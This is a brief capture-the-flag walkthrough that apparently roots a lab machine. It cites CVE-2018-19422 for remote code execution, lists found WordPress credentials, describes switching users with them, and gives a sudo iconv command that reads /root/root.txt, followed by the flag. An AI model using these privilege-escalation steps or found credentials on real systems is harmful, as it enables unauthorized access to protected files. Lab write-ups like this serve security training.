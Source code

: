 Using CVE-2018-19422 To Get RCE to the Mechine:
================================================

WordPress Crdentials Found inside the System:
===============================================
support:ImAScammerLOL!123!

----------------------------------------------------------------
Trying To Switch User To scamsite and using the password and it worked!!
----------------------------------------------------------------

Using GTFOBin On iconv to read root.txt :
=========================================

sudo -u root iconv  -f 8859_1 -t 8859_1 "/root/root.txt"

=============
Root Flag!!
=============
851b8233a8c09400ec30651bd1529bf1ed02790b